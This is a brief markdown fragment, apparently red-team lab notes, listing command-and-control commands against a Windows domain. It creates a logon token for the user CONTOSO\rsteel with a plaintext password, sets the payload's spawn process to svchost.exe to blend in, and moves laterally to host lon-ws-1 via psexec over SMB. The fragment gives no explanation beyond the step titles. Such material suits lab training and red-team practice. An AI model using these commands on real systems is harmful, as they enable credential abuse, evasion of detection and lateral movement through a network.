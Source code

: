 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump psexec64 lon-ws-1 smb
```